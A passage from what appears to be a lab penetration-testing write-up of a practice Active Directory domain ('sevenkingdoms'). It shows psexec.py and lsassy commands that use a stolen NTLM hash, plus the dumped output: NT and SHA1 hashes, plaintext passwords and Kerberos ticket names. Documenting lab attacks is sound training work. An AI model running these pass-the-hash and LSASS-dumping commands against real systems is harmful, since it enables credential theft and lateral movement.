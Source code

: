 `psexec.py north.sevenkingdoms.local/eddard.stark@10.4.10.11 -hashes aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8`

![Pasted_image_20250107141138](https://github.com/user-attachments/assets/53440b38-091b-4885-9587-a2078373621d)

# LSASS Dump

LSASS (Local Security Authority Subsystem Service) is a process which enforces security policy on the system and handles authentication requests, user session management, and other security-related tasks.

Functions of LSASS:
- Authentication Management - Processes login requests for local and domain accounts, and validates user credentials (passwords, NTLM hashes, Kerberos tickets).
- Access Token Creation - After authentication is successful, it creates and assigns an access token to the user or process, defining what resources they can access.
- Kerberos and NTLM Authentication.
- Security Policy Enforcing - Enforces account lockout policies, password requirements and privilege assignments.

I dumped the LSASS memory by using the `lsassy` tool, and passing the hash of "eddard.stark".

`lsassy -u eddard.stark -p "" -H d977b98c6c9282c5c478be1d97b237b8 -d north.sevenkingdoms.local 10.4.10.22`

I dumped the following sensitive information from LSASS Memory:

### NTLM and SHA1 Hashes:

`10.4.10.22 - NORTH\CASTELBLACK$                               [NT] 0073abf6ce521277f2d1a148bc955aa9 | [SHA1] 057ab9db09f89ca2659dcffccbbbf363e896d5af`

`10.4.10.22 - NORTH\robb.stark                                 [NT] 831486ac7f26860c9e2f51ac91e1a07a | [SHA1] 3bea28f1c440eed7be7d423cefebb50322ed7b6c`

`10.4.10.22 - NORTH\sql_svc                                    [NT] 84a5092f53390ea48d660be52b93b804 | [SHA1] 9fd961155e28b1c6f9b3859f32f4779ad6a06404`

`10.4.10.22 - NORTH\jon.snow                                   [NT] b8d76e56e9dac90539aff05e3ccb1755 | [SHA1] 1315aeb7efe3eed73b568094db32a90f2e24a248`

`10.4.10.22 - CASTELBLACK\localuser                            [NT] 8846f7eaee8fb117ad06bdd830b7586c | [SHA1] e8f97fba9104d1ea5047948e6dfb67facd9f5b73`

### Plaintext Passwords

`10.4.10.22 - north.sevenkingdoms.local\CASTELBLACK$           [PWD] wGC870k%/[bHDQHK$eg;5h$>4&t[NygJP]l16jqa?!CaL69P]!=%xk7@qkdZYk&J"61OyMAL+n=6UqSh]kIh:t7spo\t;KNWl>FtN\i<E=VYxG#5hG?mhN(b`

`10.4.10.22 - NORTH.SEVENKINGDOMS.LOCAL\sql_svc                [PWD] YouWillNotKerboroast1ngMeeeeee`

### Kerberos Tickets
`TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_77ebdaad_20250108035512.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_936064ee_20250108035512.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_cd6de780_20250108072401.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_d64496a2_20250108072401.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_jon.snow_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_cbdc1708_20250108011355.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_jon.snow_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_d6b61eec_20250108011355.kirbi`
`TGT_NORTH.SEVENKINGDOMS.LOCAL_robb.stark_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_63d16d9f_20250108071403.kirbi`